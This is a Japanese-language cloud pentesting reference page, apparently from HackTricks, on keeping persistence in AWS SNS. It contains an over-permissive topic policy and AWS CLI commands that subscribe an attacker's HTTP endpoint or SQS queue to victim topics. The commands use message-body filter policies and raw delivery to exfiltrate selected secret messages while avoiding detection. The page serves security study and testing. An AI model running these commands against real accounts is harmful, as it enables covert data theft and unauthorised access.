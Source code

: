 # AWS - SNS 永続化

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

詳細は次を参照:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### 永続化

**SNS topic** を作成する際、IAM policy で **誰が読み書きできるか** を指定する必要があります。外部アカウント、ARN of roles、または **"\*"** を指定することも可能です。\
次のポリシーは、**`MySNS.fifo`** という SNS topic に対して AWS 内のすべてのユーザーに読み書きアクセスを与えます:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### サブスクライバーの作成

すべてのトピックからのメッセージを引き続き持ち出すため、攻撃者は **すべてのトピックに対してサブスクライバーを作成することができる**。

トピックが **FIFO タイプ** の場合、プロトコルが **SQS** のサブスクライバーのみ使用できることに注意してください。
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
### 隠密で選択的な exfiltration（FilterPolicy を MessageBody に対して使用）

あるトピックに対して `sns:Subscribe` と `sns:SetSubscriptionAttributes` を持つ攻撃者は、JSON ボディが非常に狭いフィルタ（例: `{"secret":"true"}`）に一致するメッセージのみを転送するステルスな SQS サブスクリプションを作成できます。これにより通信量と検出のリスクが低減され、機密レコードの exfiltration が可能になります。

**潜在的な影響**: 被害者トピックからターゲットとなる SNS メッセージのみを低ノイズで隠密に exfiltration する。

手順 (AWS CLI):
- 攻撃者の SQS キュー ポリシーが被害者の `TopicArn` からの `sqs:SendMessage` を許可していることを確認する（Condition `aws:SourceArn` が `TopicArn` と等しい）。
- トピックに対して SQS subscription を作成:

```bash
aws sns subscribe --region us-east-1 --topic-arn TOPIC_ARN --protocol sqs --notification-endpoint ATTACKER_Q_ARN
```

- フィルタを MessageBody に対して動作させ、`secret=true` のみをマッチさせる:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicyScope --attribute-value MessageBody
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicy --attribute-value '{"secret":["true"]}'
```

- オプション（ステルス）: RawMessageDelivery を有効にして、受信側に生のペイロードのみを届ける:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name RawMessageDelivery --attribute-value true
```

- 検証: 2 件のメッセージを publish し、攻撃者キューに届くのが最初のメッセージのみであることを確認する。例のペイロード:

```json
{"secret":"true","data":"exfil"}
{"secret":"false","data":"benign"}
```

- クリーンアップ: 永続化テストのために作成した場合は、サブスクリプションを解除し攻撃者の SQS キューを削除する。

{{#include ../../../../banners/hacktricks-training.md}}
